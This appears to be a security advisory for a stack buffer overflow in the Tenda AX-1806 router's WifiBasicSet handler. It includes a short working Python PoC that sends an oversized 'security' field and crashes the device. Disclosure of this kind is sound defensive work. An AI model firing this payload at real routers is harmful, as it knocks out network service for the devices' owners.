


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan

Mail:chuanhaowan@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the function sub_4C408, the security value is obtained from user-controlled input via v11 = (const char *)sub_295C8(a1, "security", "none") and then copied into the local buffer s using strcpy(s, v11). The buffer s is a fixed-size stack buffer of 256 bytes (char s[256]), while strcpy does not perform any bounds checking on the source string. Because the "security" parameter is supplied directly by the user and no maximum length is enforced, an attacker can provide an excessively long value to cause strcpy to write past the end of s. This results in a stack-based buffer overflow that can corrupt adjacent stack memory, overwrite local variables or control data, and ultimately lead to a process crash, causing a Denial of Service.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/WifiBasicSet"

security = "A"*7000
data = {
"security": security,
"doubleBand": "0"
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>